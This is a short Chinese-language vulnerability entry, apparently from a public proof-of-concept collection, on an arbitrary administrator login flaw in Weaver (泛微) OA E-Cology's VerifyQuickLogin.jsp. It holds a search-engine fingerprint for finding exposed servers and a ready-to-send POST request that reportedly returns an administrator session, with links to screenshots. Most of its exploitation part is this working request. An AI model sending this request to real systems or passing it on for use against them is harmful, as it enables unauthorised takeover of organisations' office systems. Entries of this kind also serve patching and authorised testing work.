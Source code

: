# 泛微OA E-Cology VerifyQuickLogin.jsp 任意管理员登录漏洞

## 漏洞描述

泛微OA E-Cology VerifyQuickLogin.jsp文件中存在任意管理员登录漏洞，攻击着通过发送特殊的请求包可以获取管理员Session

## 漏洞影响

泛微OA E-Cology 

## 网络测绘

app="泛微-协同办公OA"

## 漏洞复现

产品主页

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1659252985356-45185f65-d899-4374-bfa1-b4d7cf397298.png)

验证POC

```php
POST /mobile/plugin/VerifyQuickLogin.jsp
  
identifier=1&language=1&ipaddress=x.x.x.x
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1659253382744-eb36ef30-038a-4bb3-8d69-d924411bcf00.png)